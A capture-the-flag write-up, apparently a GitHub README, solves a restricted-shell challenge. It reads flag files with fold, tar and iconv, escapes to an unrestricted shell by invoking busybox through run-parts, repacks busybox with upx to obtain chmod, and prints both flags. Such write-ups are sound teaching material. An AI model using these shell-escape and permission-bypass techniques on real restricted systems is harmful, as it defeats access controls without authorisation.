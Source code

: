 ![](./images/logo.png)

# Main Flag

The challenge starts by providing us with a command prompt. However, is immediately apparent that commands are missing and you're unable to `cat` out files.

Listing out `/usr/bin` or `/bin` (where system binaries are stored) allows us to view what we can execute.

Using this information alongside the beautiful website ![gtfobins](./https://gtfobins.github.io). I am able to search for binaries that allow us to read a file.

After a little trial and error I come across the command `fold` that is used to wrap text to fit a specified width.

This, however, allows us to read local files! Taking the code snippet from `gtfobins` 

```
LFILE=file_to_read
fold -w99999999 "$LFILE"
```

We're able to print the `READEME.flag` to get the first flag (`-w` is just to specify the character width)

```bash
fold -w 1000 README.flag
```

FLAG:
```
CTF{4ll_D474_5h4ll_B3_Fr33}
```

# Bonus Flag

Alongside the previous flag there is another flag called `ORME.flag`, however it has 000 permissions (I.e. nobody can read or write it). We do, however, own the file so we can change the permissions using `chmod`. 

The 000 permissions are shown bellow:
```
----------    1 1338     1338            33 Jun 23 17:20 ORME.flag
```

This would all well and good if the `chmod` binary was present on the machine, it is not so we need to find another way.

On the machine all the binaries are being linked to `busybox`. This is a binary designed to house all required binaries in a convenient bundle. This is our target as it will have the required `chmod` baked in!

However, attempting to run it gives us:

```
busybox can not be called for alien reasons.
```

We're, again, going to have to find another way. 

After attempts to change the name of the binary with `install` and other ineffective methods I finally found what I've been looking for. A binary called `run-parts`.

`run-parts` is used to execute all scripts in a directory, this means we can run `busybox` without it being filtered!

For ease of output I made a copy of the `busybox` binary in the `/tmp` directory using `install`:

```
install /bin/busybox /tmp
```

This allows me to only run that script instead of all of the binaries in `busybox`'s home `/bin`

Then running the command:

```
run-parts /tmp"
```

Gives us the output:

```
BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	[, [[, acpid, add-shell, addgroup, adduser, adjtimex, arch, arp,
	arping, ash, awk, base64, basename, bbconfig, beep, blkdiscard, blkid,
	blockdev, brctl, bunzip2, bzcat, bzip2, cal, cat, chgrp, chmod, chown,
	chpasswd, chroot, chvt, cksum, clear, cmp, comm, conspy, cp, cpio,
	crond, crontab, cryptpw, cut, date, dc, dd, deallocvt, delgroup,
	deluser, depmod, df, diff, dirname, dmesg, dnsdomainname, dos2unix, du,
	dumpkmap, dumpleases, echo, ed, egrep, eject, env, ether-wake, expand,
	expr, factor, fallocate, false, fatattr, fbset, fbsplash, fdflush,
	fdformat, fdisk, fgrep, find, findfs, flock, fold, free, fsck, fstrim,
	fsync, fuser, getopt, getty, grep, groups, gunzip, gzip, halt, hd,
	hdparm, head, hexdump, hostid, hostname, hwclock, id, ifconfig, ifdown,
	ifenslave, ifup, init, inotifyd, insmod, install, ionice, iostat, ip,
	ipaddr, ipcalc, ipcrm, ipcs, iplink, ipneigh, iproute, iprule,
	iptunnel, kbd_mode, kill, killall, killall5, klogd, less, link,
	linux32, linux64, ln, loadfont, loadkmap, logger, login, logread,
	losetup, ls, lsmod, lsof, lspci, lsusb, lzcat, lzma, lzop, lzopcat,
	makemime, md5sum, mdev, mesg, microcom, mkdir, mkdosfs, mkfifo,
	mkfs.vfat, mknod, mkpasswd, mkswap, mktemp, modinfo, modprobe, more,
	mount, mountpoint, mpstat, mv, nameif, nanddump, nandwrite, nbd-client,
	nc, netstat, nice, nl, nmeter, nohup, nologin, nproc, nsenter,
	nslookup, ntpd, od, openvt, partprobe, passwd, paste, patch, pgrep,
	pidof, ping, ping6, pipe_progress, pkill, pmap, poweroff, powertop,
	printenv, printf, ps, pscan, pstree, pwd, pwdx, raidautorun, rdate,
	rdev, readahead, readlink, readprofile, realpath, reboot, reformime,
	remove-shell, renice, reset, resize, rev, rfkill, rm, rmdir, rmmod,
	route, run-parts, sed, sendmail, seq, setconsole, setfont, setkeycodes,
	setlogcons, setpriv, setserial, setsid, sh, sha1sum, sha256sum,
	sha3sum, sha512sum, showkey, shred, shuf, slattach, sleep, smemcap,
	sort, split, stat, strings, stty, su, sum, swapoff, swapon,
	switch_root, sync, sysctl, syslogd, tac, tail, tar, tee, test, time,
	timeout, top, touch, tr, traceroute, traceroute6, true, truncate, tty,
	ttysize, tunctl, udhcpc, udhcpc6, umount, uname, unexpand, uniq,
	unix2dos, unlink, unlzma, unlzop, unshare, unxz, unzip, uptime, usleep,
	uudecode, uuencode, vconfig, vi, vlock, volname, watch, watchdog, wc,
	wget, which, whoami, whois, xargs, xxd, xzcat, yes, zcat
```

This means busybox has been sucessfully run!

Using this alongside the `--arg` parameter of `run-parts` we can spawn an actual shell that will have zero restrictions.

Running:
```
run-parts /tmp --arg sh
```
Spawns us a shell that allows us to run `busybox`

This lets us run (777 Means everyone can read, write and execute the file. The most open permission you can apply to a file)
```
busybox chmod 777 /challenge/ORME.flag
```

We can now retrieve the flag with:

```
busybox cat /challenge/ORME.flag
```

FLAG:
```
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

# Alternative Solutions

With a challenge like this with the huge number of different binaries and all their sub-options there is bound to be more than one way to complete the challenge. Here I will document any other solutions and their authors, so please if you have a working solution that is not listed here please contact me and I'll add it to the README.

## Alternative Main Solutions

### tar
Credit: [madushan1000](https://github.com/madushan1000)

`tar` can be used to print out the flag as it is being compressed into a archive.

Running: 
```
tar cvf - README.flag
```

Will produce the output:
```
README.flag0000400000247200024720000000003413504135746010423 0ustar  13381338README.flag
CTF{4ll_D474_5h4ll_B3_Fr33}
```

### iconv
Credit: [TheSeanis](https://github.com/TheSeanis), [ArtificialAmateur](https://github.com/ArtificialAmateur)

`iconv` can also be used to print the conetents of a file. `iconv` is used to convert the encoding of text.

Running just:
```
iconv README.flag
```

I really like this solution as it's the cleanest one I've seen so far.

## Alternative Bonus Solutions

### upx
Credit: [madushan1000](https://github.com/madushan1000)

On the machine is the binay `upx`. This is used to pack binaries, however this can be used to pack `busybox` into a frakenstien `chmod` binary that will allow us to change the permissions of the `ORME.flag`.

Running:
```
upx  -ochmod /bin/busybox
```

Will create us a file called `chmod` that when executed can be used like the official tool.

Same as above running:

```
./chmod 777 ORME.flag
```

Will change the permissions and allow us to view the file!